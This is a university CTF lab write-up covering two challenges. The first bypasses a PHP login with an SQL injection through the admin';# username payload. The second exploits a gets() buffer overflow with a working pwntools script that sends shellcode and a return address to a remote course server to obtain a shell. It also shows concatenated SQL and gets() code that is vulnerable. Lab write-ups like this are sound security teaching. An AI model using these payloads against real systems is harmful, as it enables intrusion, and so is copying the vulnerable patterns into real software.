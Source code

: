 # Week 8: CTF

## Goal

> Explore injection vulnerabilities.

### Challenge 1

> First we started by checking <http://ctf-fsi.fe.up.pt:5003/> and explore the page.

![initial page](../docs/ctf8/initial.png)

> It is a simple web page that allows the user to login inserting a username and a password.
>
> We can try to use SQL injection to login even though we don't know the password. To see if we can perform SQL injection we must analyze the page code :

```php
$username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
               if ($result = $conn->query($query)) {
                                  
                  while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                    $_SESSION['username'] = $data['username'];
           
                    echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                    include "/flag.txt";
                    echo "</code>";

                 }
```

> The vulnerabilty is on this line :

```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

> We can insert on the username text to ignore the password and the query will just run to search for the username admin. The text that we will need to insert into the username will be something that will comment the password part like " admin';# " and in the password we can input anything because it will be commented :

![php with our input](../docs/ctf8/login.png)

> As you can see above, it will just perform a simple query finding a user with the name admin and because it will return that user it will enter the if statement and we will be logged in and able to see the flag:

![after login](../docs/ctf8/logged_in.png)

### Challenge 2

> First we started by running checksec in our program to see it´s protections.

```bash
 /home/seed/Documents/CTF/semana8/desafio2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

> We can see that PIE is enabled which means that exists memory address randomization not allowing us to, like in challenges before, discover memory positions of variables and reuse them later. It is important to notice that NX is disabled which means that writable memory can be executed. This will be important for the exploit that we will use.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer); // this line has the vulnerability
    
    return 0;
}
```

> Now analysing the source code we see that the vulnerability is in the gets function because that function reads bytes from stdin until a character of termination is found. Our buffer only has size of 100 bytes so we can with gets write more than that and therefore create a buffer overflow.
>
> Exploiting gets() we can rewrite the return address to a place in memory where we have a large payload of shellcode and NOPs. If our code jump to the shellcode a shell will be launched and then we can execute:

```bash
cat flag.txt
```

> The line bellow is very important because it will tell us where the buffer is located in memory instead of us having to guess.

```c
printf("Your buffer is %p.\n", buffer);
```

> We used the shellcode of the week5 task and like in the other buffer overflows challenges we needed to discover the offset between the ebp and the buffer in memory.
>
> We determined since there were no more variables that this offset will be 104 therefore the return address is 108 bytes from the beggining of the buffer.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

buff_adr = p.recvline_contains(b'Your buffer is').decode('utf-8')[17:25]

print("Buff:" + buff_adr)

buff_bytes = bytearray.fromhex(buff_adr)
buff_bytes.reverse()

p.recvuntil(b':')

offset = 108 #104 + 4

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

input = shellcode + b'\x90' * 81 + buff_bytes
p.sendline(input)
p.interactive()
```

> First we use p.recvline_contains to read from the output of the buffer memory position, then we transform that into a bytearray and then we reverse it because of little-endian.
> For our input we put the shellcode followed by 81 NOP's because 108 - size(shellcode) = 81 then we put the buffer memory address so that the function returns to the beggining of the buffer to then go to the shellcode and launch a shell.
>
> With the shell, to obtain the flag we just do:

```bash
cat flag.txt
```
